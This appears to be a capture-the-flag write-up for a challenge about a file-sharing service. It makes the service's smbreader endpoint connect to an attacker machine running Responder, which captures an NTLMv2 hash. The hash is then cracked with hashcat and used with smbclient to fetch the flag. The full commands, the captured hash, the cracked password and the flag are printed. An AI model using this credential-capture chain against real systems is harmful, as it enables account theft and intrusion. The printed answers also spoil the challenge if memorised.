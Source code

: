 #### Challenge:

Hi Expert,

the file sharing service at `http://78.128.216.5:65080` looks as valuable source of information. Get access to the system and export any valuable data.

---

#### Solution:

Following the link redirects us to URL:

`http://78.128.216.5:65080/smbreader?server=localhost&file=message.txt`

which contains the text:

```text
Current path is \\localhost\shared\message.txt
Hey you, try to get Samba password for user 'shared', then search flag.txt  :-)
```

It looks like we can manipulate the server and file that is read, but the result always times out. The `smbreader` indicates that it uses `samba` protocol. Bit of Googling led me to this [article](https://cornerpirate.com/2021/06/17/grabbing-ntlm-hashes-with-responder-then-what/).

TLDR: we need to setup [responder](https://gitlab.com/kalilinux/packages/responder.git) on our machine to listen:

```bash
git clone https://gitlab.com/kalilinux/packages/responder.git
sudo ./responder/Responder.py -I eth0 -Pv
```

And then ping it like this:

```bash
curl http://78.128.216.5:65080/smbreader?server=MY.CURRENT.PUBLIC.IP&file=message.txt
```

The server will try to connect to the `responder`, which dumps the `NTLM hashes` of the `shared` user:

![responder.png](./responder.png ":include")

Then we need to feed the `NTLM Hashes` to `John` or `Hashcat` to get the password of the `shared` user:

```bash
for user in `strings /usr/share/responder/logs/Responder-Session.log | grep "NTLMv2-SSP Hash" | cut -d ":" -f 4-6 | sort -u -f | awk '{$1=$1};1'`
do
    echo "[*] search for: $user";
    strings /usr/share/responder/logs/Responder-Session.log | grep "NTLMv2-SSP Hash" | grep -i $user | cut -d ":" -f 4-10 |  head -n 1 | awk '{$1=$1};1' >> ntlm-hashes.txt
done

hashcat -m 5600 ntlm-hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
cat cracked.txt
```

Which gets us:

```text
SHARED:::c9c0da939d5fac4c:de4257fe1cb72ae3142077ce54276999:0101000000000000005660fbe2bed701ed1eb3c1a2e28282000000000200080053004d004200330001001e00570049004e002d00500052004800340039003200520051004100460056000400140053004d00420033002e006c006f00630061006c0003003400570049004e002d00500052004800340039003200520051004100460056002e0053004d00420033002e006c006f00630061006c000500140053004d00420033002e006c006f00630061006c0007000800005660fbe2bed7010900240043004900460053002f00380039002e003100370037002e00350036002e0031003500390006000400020000000000000000000000:Iloveyou4
```

Knowing the `username%password`, we can connect to the server using `smbclient` and `get` the `flag.txt` (*Note that for some reason you have to have public IP for this as well, I couldn't connect to it through NAT*):

```bash
smbclient //78.128.216.5/shared/ -U shared%Iloveyou4 -c "get flag.txt"
cat flag.txt
```

---

<details><summary>FLAG:</summary>

```
FLAG{xcrh-xE9H-H4wm-4Pxm}
```

</details>
<br/>
